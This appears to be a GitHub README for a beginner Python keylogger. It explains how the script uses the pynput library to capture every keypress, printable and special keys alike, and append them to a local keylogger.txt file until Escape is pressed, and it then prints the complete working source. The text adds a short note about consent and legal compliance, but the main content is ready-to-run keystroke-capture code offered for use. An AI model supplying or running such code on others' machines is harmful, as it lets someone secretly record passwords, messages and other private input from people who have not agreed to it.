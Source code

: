 # Simple Keylogger

The provided script is a simple keylogger implemented in Python using the `pynput` library. It captures and logs all key presses, storing them in a text file named `keylogger.txt`. The program terminates when the **Escape** key (`Key.esc`) is pressed.

---

### **Features**  
1. **Key Logging**:  
   - Captures and records both printable and non-printable keys.  
2. **Log File**:  
   - Stores all keypress data in a file (`keylogger.txt`).  
3. **Exit Trigger**:  
   - Stops logging when the Escape key is pressed.

---

### **How It Works**  
1. **Key Press Detection**:  
   - The `on_press` event handler (`log_key`) captures each keypress.  
   - Printable characters (letters, numbers, symbols) are logged directly.  
   - Non-printable keys (e.g., Enter, Shift) are logged as `[key_name]`.  

2. **Logging**:  
   - The program appends each keypress to `keylogger.txt`.  
   - This ensures a continuous log of all user input until termination.  

3. **Stopping the Listener**:  
   - The `on_release` event handler (`stop_listener`) monitors for the Escape key.  
   - When pressed, it stops the listener, effectively ending the keylogging process.  

4. **Execution**:  
   - A `Listener` instance is created and managed with a context manager (`with Listener as listener`).  
   - The listener runs in the background, capturing events until explicitly stopped.

---

### **Technologies Used**  
1. **Python**:  
   - Core programming language for writing the script.  

2. **`pynput` Library**:  
   - Used to listen for keyboard events and interact with the system.  

3. **File Handling**:  
   - Appends data to a text file using Python's file I/O capabilities.  

---

### **Potential Use Cases**  
- Debugging keyboard inputs for testing applications.  
- Monitoring for specific key sequences in controlled environments.  

**Note**: Always ensure ethical and legal compliance when working with keylogging software. This type of script must only be used with proper consent and in accordance with local laws.

---

### **Code**  

Here is the Python code for the Simple Keylogger:
```
from pynput.keyboard import Key, Listener

# Path to the log file
log_file = "keylogger.txt"

def log_key(key):
    try:
        with open(log_file, "a") as file:
            file.write(key.char)
    except AttributeError:
        with open(log_file, "a") as file:
            file.write(f'[{key}]')

def stop_listener(key):
    if key == Key.esc:
        # Stop listener
        return False

# Start the listener
with Listener(on_press=log_key, on_release=stop_listener) as listener:
    listener.join()
